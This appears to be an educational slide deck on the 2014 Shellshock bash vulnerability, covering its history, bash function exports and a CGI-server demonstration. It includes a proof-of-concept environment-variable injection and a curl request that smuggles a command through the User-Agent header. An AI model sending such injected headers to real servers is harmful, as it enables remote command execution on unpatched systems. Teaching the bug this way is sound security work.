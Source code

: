 Shellshock
==========
:description: Shellshock bug
:deckjs_theme: swiss
:deckjs_transition: horizontal-slide
:scrollable:

== Shellshock

image::figures/shellshock-logo.png[]

[incremental="true"]
 * Discovered on *Sept, 2014*.
 * a.k.a *Bashdoor*
 * Affects *Bash*
 * Causes bash to unintentionally execute any shell command.
 * *National Institute of Standards & Technology* warned vulnerability was *10/10* interms of *serverity*, *impact* & *exploitability*.


== The Shock!

[incremental="true"]
 * On *12th Sept. 2014*, Bash maintainer *Mr. Chet Ramey* is notified of the Bug by *Stephane Chazelas*, an open-source enthusiast.
 * Within hours *Chazelas* submits a patch fixing the bug.
 * Precautions taken before public announcement.
 * Public announcement on *24th Sept. 2014* 
 * On *27th Sept. 2014*, *Michael Zalewski* from *Google* discovers other bash vulnerabilites and help fix them.

== "Bash"ing!

[incremental="true"]
 * *Kaspersky Labs* detected various DDOS attacks.
 * Security firm *Incapsula* noted 17,400 attacks on more than 1,800 web domains.
 * *CloudFare* tracking *1.5 million* attacks per day.
 * DDOS attacks on *Akamai Technologies*
 * Scanning of systems in  *U.S Dept. of Defense*

== Bash environment

 * `env` command

[source,bash]
-----------
$ var=hello
$ env
$ bash
-----------

 * `var` variable is not passed to the new bash instance.
 * `export` command allows passing variable to the spawned child process.
 
== Bash function

[source,bash]
---------
$ foo () { echo "Hello World!"; }
$ foo
Hello World!
---------

 * Bash allows passing functions as an environment variable.
 * `export -f` allows passing functions to the spawned child process.
 * Bash *initializes `foo` as function* after parsing the special variable `foo`.

== Alternate way to export a function

 * Bash function can be exported as a variable

[source,bash]
-------------------------------------------
$ foo='() { echo "Hello World!"; }'
$ export foo
$ env
...
...
foo=() { echo "Hello World!"; }
$ bash
$ foo
Hello World!
-------------------------------------------


== The Bug!

[source,bash]
-------------------------------------------
$ bug='() { echo "Hello World!"; }; echo "This is a Bug!"'
$ export bug
$ bash
This is a Bug!
-------------------------------------------

 * A command concatenated after the function definition is executed during *bash initialization*!


== An example: CGI-based web server

image::figures/block.png[]

== An example: CGI-based web server

 * CGI script
[source,bash]
-------------------------------------------
cat /usr/lib/cgi-bin/bashbug.sh <EOF

#!/bin/bash
echo “Content-type: text/html”
echo “”
echo “<h1> CGI Bash Bug Example </h1>”
EOF
-------------------------------------------

 * Malicious user request

[source,bash]
-------------------------------------------
$ curl -H ‘User-Agent: () { :;}; echo "Your system has been hacked!" > /tmp/hacker’ https://localhost/cgi-bin/bashbug.sh
-------------------------------------------


== References

 . https://en.wikipedia.org/wiki/Shellshock_(software_bug)/
 . https://mustbehero.wordpress.com/2016/03/22/shellshock-bash-bug-explained-with-examples
 . https://blog.cloudflare.com/inside-shellshock
 . http://www.nytimes.com/2014/09/26/technology/security-experts-expect-shellshock-software-bug-to-be-significant.html
